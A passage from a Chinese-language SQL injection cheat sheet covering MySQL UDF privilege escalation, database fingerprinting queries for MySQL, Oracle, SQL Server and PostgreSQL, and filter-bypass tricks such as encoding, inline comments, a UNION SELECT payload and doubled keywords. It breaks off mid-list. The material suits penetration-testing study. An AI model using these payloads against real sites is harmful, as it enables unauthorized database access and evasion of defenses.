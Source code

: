 ### 3. 权限提升
  
#### 1. UDF提权
UDF（User Defined Function，用户自定义函数）是MySQL提供的一个功能，可以通过编写DLL扩展为MySQL添加新函数，扩充其功能。

当获得MySQL权限之后，即可通过这种方式上传自定义的扩展文件，从MySQL中执行系统命令。


### 4. 数据库检测
#### 1. MySQL
- sleep `sleep(1`
- benchmark `BENCHMARK(5000000, MD5('test'))`
- 字符串连接 
  - `SELECT 'a' 'b'`
  - `SELECT CONCAT('some','string')`
- version
  - `SELECT @@version`
  - `SELECT version()`
- 识别用函数
  - `connection_id()`
  - `last_insert_id()`
  - `row_count()`

#### 2. Oracle
- 字符串连接
  - `'a'||'oracle' --`
  - `SELECT CONCAT('some','string')`
- version
  - `SELECT banner FROM v$version`
  - `SELECT banner FROM v$version WHERE rownum=1`

#### 3. SQLServer
- WAITFOR `WAITFOR DELAY '00:00:10';`
- SERVERNAME `SELECT @@SERVERNAME`
- version `SELECT @@version`
- 字符串连接
  - `SELECT 'some' + 'string'`
- 常量
  - `@@pack_received`
  - `@@rowcount`
  
#### 4. PostgreSQL
- sleep `pg_sleep(1)`

### 5. 绕过技巧
- 编码绕过
  - 大小写
  - url编码
  - html编码
  - 十六进制编码
  - unicode编码
- 注释
  - `//` `--` `--+` `---` `#` `/**/` `;%00`
  - 内联注释用的更多，它有一个特性 `/!**/` 只有MySQL能识别
  - e.g. `index.php?id=-1 /*!UNION*/ /*!SELECT*/ 1,2,3`
- 只过滤了一次时
  - `union => ununionion`
- 相同功能替换
  - 函数替换
    - `substring` / `mid` / `sub`
    - `ascii` / `hex` / `bin`
    - `benchmark` / `sleep`
  - 变量替换